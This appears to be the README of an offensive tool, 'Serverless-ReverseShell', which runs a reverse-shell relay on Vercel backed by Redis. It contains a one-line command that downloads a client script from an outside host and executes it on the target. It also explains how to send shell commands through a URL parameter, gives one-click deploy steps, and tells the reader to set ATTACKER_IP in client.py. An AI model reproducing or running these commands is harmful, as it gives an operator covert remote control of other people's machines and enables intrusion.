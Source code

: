 
# Serverless-ReverseShell


## Demo

https://chat.fjh1997.top/

## Usage

Make client connect
```
wget https://chat.fjh1997.top/download -O client.py && python3 client.py
```
Then use https://chat.fjh1997.top/send?cmd=xxx to get shell!

## Running Locally

```bash
npm i -g vercel
vercel dev
```

Your application is now available at `http://localhost:3000`.

## One-Click Deploy

Deploy the example using [Vercel](https://vercel.com?utm_source=github&utm_medium=readme&utm_campaign=vercel-examples):

[![Deploy with Vercel](https://vercel.com/button)](https://vercel.com/new/clone?repository-url=https://github.com/fjh1997/Serverless-ReverseShell/tree/main/&&env=REDIS_URL)

Remember to set the environment variable REDIS_URL to the address from [redislabs](https://app.redislabs.com/)<br>
And also the ATTACKER_IP in  client.py :-) <br>
note: For chinese user,a cdn is needed as Vercel was blocked.
